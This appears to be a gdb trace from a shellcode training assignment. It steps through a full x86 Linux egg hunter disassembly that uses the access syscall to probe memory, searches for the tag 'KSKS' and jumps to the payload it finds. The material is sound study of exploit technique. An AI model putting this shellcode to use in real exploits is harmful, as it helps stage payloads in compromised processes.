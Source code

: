 ```nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ gdb -q ./shellcode
Reading symbols from /home/skawa/Desktop/code/assignment/assignment3/shellcode...(no debugging symbols found)...done.
(gdb) break *&egg_hunter
Breakpoint 1 at 0x804a060
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment3/shellcode
[+] Searching for: KSKS
[+] Egg Hunter Length: 16
[+] Shellcode Length: 33

Breakpoint 1, 0x0804a060 in egg_hunter ()
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>print/x $eax
>print/x $ebx
>print/x $edx
>print/x $edi
>x/4bx $edi
>i r eflags
>disas
>end
(gdb) stepi
$1 = 0x804a060
$2 = 0xb7fc6ff4
$3 = 0x0
$4 = 0x804a0c2
0x804a0c2:	0x00	0x00	0x00	0x00
eflags         0x282	[ SF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
=> 0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
   0x0804a075 <+21>:	cmp    al,0xf2
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
0x0804a061 in egg_hunter ()
(gdb)
```
